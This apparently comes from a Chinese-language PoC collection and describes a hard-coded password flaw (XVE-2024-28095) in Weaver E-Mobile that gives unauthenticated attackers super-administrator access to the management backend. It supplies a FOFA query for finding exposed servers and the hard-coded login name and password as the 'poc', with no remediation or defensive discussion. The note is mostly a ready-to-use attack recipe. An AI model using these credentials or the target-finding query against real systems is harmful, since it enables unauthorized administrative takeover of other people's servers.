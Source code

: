 # 泛微E-Mobile硬编码口令漏洞(XVE-2024-28095)

泛微E-Mobile 存在硬编码口令漏洞，未经身份验证的远程攻击者可利用该口令以超级管理员身份登录管理后台，导致网站处于极度不安全状态。

## fofa

```javascript
app="泛微-EMobile"
```

## poc

```javascript
账号：msgadmin
密码：Weaver#2012!@#
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272003506.png)

